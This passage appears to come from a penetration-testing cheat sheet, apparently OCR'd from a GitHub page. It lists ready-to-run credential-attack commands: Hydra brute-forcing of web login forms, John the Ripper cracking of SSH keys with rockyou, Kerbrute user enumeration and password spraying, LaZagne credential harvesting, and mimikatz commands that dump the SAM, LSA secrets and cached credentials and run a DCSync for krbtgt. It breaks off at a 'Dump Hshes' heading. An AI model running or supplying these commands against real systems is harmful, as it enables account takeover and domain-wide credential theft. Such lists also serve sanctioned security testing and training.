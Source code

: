 ```c
hydra <RHOST> http-post-form -L /PATH/TO/WORDLIST/<FILE> "/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s <RPORT> -P /PATH/TO/WORDLIST/<FILE>

hydra <RHOST> http-form-post "/otrs/index.pl:Action=Login&RequestedURL=Action=Admin&User=root@localhost&Password=^PASS^:Login failed" -l root@localhost -P otrs-cewl.txt -vV -f

hydra -l admin -P /PATH/TO/WORDLIST/<FILE> <RHOST> http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=COOKIE_1&__EVENTVALIDATION=COOKIE_2&UserName=^USER^&Password=^PASS^&LoginButton=Log+in:Login failed"
```

#### John

```c
/usr/share/john/ssh2john.py id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt <FILE>
john --rules --wordlist=/usr/share/wordlists/rockyou.txt <FILE>
john --show <FILE>
```

#### Kerbrute

##### User Enumeration

```c
./kerbrute userenum -d <DOMAIN> --dc <DOMAIN> /PATH/TO/FILE/<USERNAMES>
```

##### Password Spray

```c
./kerbrute passwordspray -d <DOMAIN> --dc <DOMAIN> /PATH/TO/FILE/<USERNAMES> <PASSWORD>
```

#### LaZagne

```c
laZagne.exe all
```

#### mimikatz

##### Common Commands

```c
token::elevate
token::revert
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
lsadump::dcsync /<USERNAME>:<DOMAIN>\krbtgt /domain:<DOMAIN>
```

##### Dump Hshes
